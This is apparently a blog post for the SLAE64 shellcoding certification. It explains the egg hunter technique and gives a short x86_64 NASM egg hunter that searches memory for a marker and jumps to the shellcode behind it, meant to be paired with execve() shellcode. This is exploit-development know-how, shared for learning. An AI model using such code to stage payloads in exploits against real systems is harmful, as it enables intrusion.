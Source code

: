 Introduction
------------
Egg hunter is a technique used to capture larger payloads in memory by tagging the start of the shellcode with an egg. In most cases, egg hunters are used when you don’t have enough space to host your desired shellcode. In this post we’ll create an egg hunter for Linux x86_64 and couple it with `execve()` shellcode for testing. Please refer to my SLAE32 series of posts for more details about egg hunting.

Shellcode
---------
In efforts to experiment with skape awesome piece of shellcode, we will build a slightly different version of the egg hunter that does the following:

* No hardcoded egg marker which will effectively eliminate the need for the second egg marker check.
* Use a readable memory region as starting address which allow the exclusion of memory access check routine.

As you can see this method is indeed unreliable compared to skape’s but hey it works!

```nasm
global _start
_start:

	inc rdx               ; pop valid address into rdi
	push rdx
	pop rdi
	push 0x30313232       ; push the marker-1 into the stack
	pop rax
	inc eax               ; marker is now 0x30313233 so its not hardcoded
EggHunter:
	inc rdi		          ; increment rdi by one byte
	cmp eax,[rdi]         ; check for egg match
	jnz EggHunter         ; if not found jump to EggHunter label
	inc rdi               ; increment rdi pointer by 4
	inc rdi
	inc rdi
	inc rdi
	jmp rdi               ; jump to the shellcode
```

And as always we follow with a demo.

![](/assets/images/Egg_Hunter_Linux_x86_64/EggHunterDemo.gif)

Closing Thoughts
----------------
On behalf of all the shellcoders out there, I would like to say thank you skape for producing such an elegant shellcode that will remain glorious for years to come. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%203). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
